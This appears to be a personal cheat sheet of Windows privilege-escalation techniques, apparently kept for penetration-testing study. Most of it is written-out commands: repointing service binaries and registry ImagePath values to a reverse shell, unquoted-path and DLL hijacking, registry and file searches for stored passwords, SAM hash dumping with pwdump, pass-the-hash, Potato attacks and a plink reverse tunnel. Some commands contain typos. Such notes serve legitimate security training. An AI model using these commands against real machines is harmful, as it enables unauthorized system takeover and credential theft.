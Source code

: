 ## Kernel exploit

Windows exploit suggester : https://github.com/bitsadmin/wesng

https://github.com/SecWiki/windows-kernel-exploits

Watson : https://github.com/rasta-mouse/Watson


## Service Exploits

![[Pasted image 20240325221906.png]]

 ~~~
 sc qc <servicename>
 ~~~

~~~
sc query <servicename>
~~~

~~~
net start/stop <servicename>
~~~


![[Pasted image 20240325222830.png]]

### Insecure Service Permissions

With winpeas , we can check it

~~~
.\accessck.exe /acceptula -uwcqv user <servicename>
~~~

~~~
sc qc <servicename>
~~~

~~~
sc config <servicename> binpath= "\"C:\Priv\rev.exe\""
~~~

### Unquoted Service Path

~~~
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
~~~

just repalce the service app with our rev shell


###  Weak Registry Permission

 In winpeas ,

![[Pasted image 20240326124400.png]]

~~~
powershell -exec bypass
~~~

~~~
Get-Acl <serviceregist-with-path> | Format-List
~~~

~~~
.\accesschk.exe /acceptula -uvwqk <serviceregist-with-path>
~~~

~~~
.\accesschk.exe /accepteula -ucqv user <servicename-alone>
~~~

To check the current values 

~~~
reg query <serviceregist-with-path>
~~~

To overwrite ,

~~~
ref add <serviceregist-with-path> /v ImagePath /t REG_EXPAND_SZ /d <rev_shellpath> /f
~~~

~~~
net start <registry>
~~~


### Insecure Service Executables

![[Pasted image 20240326225308.png]]
Just replace with rev shell

### DLL Hijacking

![[Pasted image 20240326232116.png]]

## Registry Exploits


![[Pasted image 20240327013534.png]]
 To find this manuall , inlinpeas `autorun app`
~~~
reg query  <regpath>
~~~

 ~~~
 copy /Y reverse.exe "<rewrite file path"
 ~~~

  
### AlwaysInstallElevated

~~~
.\winpeas quiet windowscreds
~~~

 https://bherunda.medium.com/windows-privesc-detecting-alwaysinstallelevated-policy-abuse-f3ffa7a734bd



## Passwords

![[Pasted image 20240327033307.png]]

`Searching the registry for passwords`

~~~
reg query HKLM /f password /t REG_SZ /s
~~~

~~~
reg query HKCU /f password /t REG_SZ /s
~~~


 CHeck Autologon creds

~~~
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
~~~

 
Stored creds 

~~~
cmdkey /list
~~~

Using runas we can execute soeme commands

~~~
runas /savecred /user:admin <file path to run >
~~~

### Configuration FIle


![[Pasted image 20240327035258.png]]


~~~
dir /s *pass* == *.config*
~~~

~~~
findstr /si password *.xml *.ini *.txt
~~~


### SAM 


![[Pasted image 20240328014216.png]]
![[Pasted image 20240328014259.png]]

For dumping SAM pass hashes

`Neohapsis  /  credump7 github`

~~~
python2 pwdump.py /<system-file> /<SAM-File>
~~~

![[Pasted image 20240328022657.png]]

~~~
pth-winexec --system *blabla*
~~~

## Scheduled Tasks

~~~
schtasks /query /fo LIST /v
~~~

In powershell

~~~
Get-ScheduledTask | Where {$_.TaskPath -notlike "\Microsoft"} | ft TaskName,TaskPath,State
~~~

### Insecure GUI Apps

   ![[Pasted image 20240328025516.png]]
### Startup Apps

 ![[Pasted image 20240328030138.png]]
  
~~~
.\acceschk.exe /accepteula -d "C:\<filePath>"
~~~

 Create a simple .vbs file as shortcut and put it inside the folder 

restart , it will get u rev shell


![[Pasted image 20240328035614.png]]

### Installed Apps

~~~
.\seatbelt.exe NonstandardProcesses
~~~

To find intresting process

~~~
.\winpeas.exe quiet procesinfo
~~~

### Hot Potato

![[Pasted image 20240328040408.png]]

~~~
.\potato.exe -ip <ip> -cmd "<revshellpath>" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
~~~

## Service Accounts (Rotten/Juicy Potato)

 Older Machiens

## Port Forwarding

~~~
.\plink.exe root@<to-IP> -R 445:localhost:445
~~~


